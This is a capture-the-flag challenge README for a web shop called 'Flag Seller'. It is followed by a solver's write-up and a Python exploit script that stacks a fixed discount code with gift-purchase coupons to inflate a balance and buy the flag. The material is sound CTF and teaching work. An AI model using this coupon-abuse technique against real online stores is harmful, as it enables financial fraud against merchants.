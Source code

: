 # Flag Seller

## 1. Description

Welcome to VHC's Shopping Mail! Our digital market is aimed to beat all Lozodo, Seehop and all the marketplace out there! Can you imagine how a "passwordless", and even "usernameless" marketplace could be such a greatttt invention??

For this one and only 9/12 sale, we will discount allll the things for you to buy!

Enjoyyy!!!!

### Guide: 
1. Turn on your Docker instance. 
2. Access: `http://14.225.211.39:$PORT` where `$PORT` is the port number given by the system.
3. pwn!

### Notes
+ The `revert` button only refresh the Docker instance for you, not to be used for deleting the containers.
+ Because of performance-critical reasons, we will shut down all of the containers periodically (2-4 hours). We will put announcement when we nuke all of the containers :)

Author: `@Thanh-Wutan`

## 2. Build

```bash
docker build -t flag_seller . 
```

This is a `docker-dynamic` challenge, aka it's required a request to create a container from image.

## 3. Solution

> Author: @teebow1e from hust3r

When I first approach this challenge, the name "Flag Seller" suggests Race Condition or logic vulnerability when handling user input. However, given the fact that the server is really laggy (I assume people are flooding the server w/ requests to exploit Race Condition) and the admins are not ready for back-up plan, I think the vulnerability is not Race Condition. Input fuzzing also shows that the website has no vulnerability when dealing with numbers that are too big/small or real numbers. At this point I decided to full audit the web application.

Here are my results:
1. Endpoint `/`
- The `Redeem coupon` appears to not work with anything.
- Every feedback sent will always returns "THANKYOU" as a discount code.
2. Endpoint `/add_to_cart`
- Will simply add item to cart
- The numbers of item added can be manipulated by editing the respective cookie.
3. Endpoint `/checkout?`
- Will checkout the item in cart, simply reduce the money you have.
- However, if you checkout the item `gifts`, you will receive back a coupon - which will give you back 100$ when redeemed and I can also get coupon for **discounted** item.

At this point, I got my exploitation plan:
- Add 10 gifts to my cart so that when I checkout, I will get back 10 coupons = $1000
- Add `THANKYOU` as discount code, so that I only have to pay $900


--> 100$ for free.

My exploitation script:
```python
import requests
import re

url = "http://14.225.211.39:50854/"
cookies = {}

s = requests.session()
initial_request = s.get(url)
cookies['session'] = initial_request.cookies['session']

def lo_hong_kinh_te():
    discount_req = s.post(url + "/cart", data={"discount_code": "THANKYOU"}, cookies=cookies)
    if "applied" in discount_req.text:
        print("[+] Discount applied.")
    else:
        print("[!] probably something wrong")

    print("[-] Adding 10 gifts to cart..")
    for _ in range(10):
        s.post(url + "/add_to_cart/gift")

    checkout = s.get(url + "/checkout?", cookies=cookies)
    checkout_message = checkout.text

    coupon_text = [item for item in checkout_message.split(": ")][1]
    coupons = [coupon for coupon in coupon_text.split(", ")]
    print(f"[+] Received {len(coupons)} coupons!")
    for coupon in coupons:
        redeem_cp = s.post(url + "/submit_coupon", data={"coupon":coupon}, cookies=cookies)
        print(redeem_cp.text)

if __name__ == "__main__":
    for _ in range(5):
        print(f"[-] Attempt {_} to exploit lỗ hổng kinh tế.")
        lo_hong_kinh_te()
        print("[+] Exploit complete.")
        print()

    final_cart = s.get(url + "/cart").text
    user_balance = re.search(r'<p>User\'s Balance: (\$[\d,]+)</p>', final_cart).group(1) if re.search(r'<p>User\'s Balance: (\$[\d,]+)</p>', final_cart) else None
    print(f"[+] Number of money you have after exploitation: {user_balance}")
    s.post(url + "/cart", data={"discount_code": "THANKYOU"}, cookies=cookies)
    s.post(url + "/add_to_cart/flag")
    buy_flag = s.get(url + "/checkout?").text
    print(f"[!] {buy_flag}")
```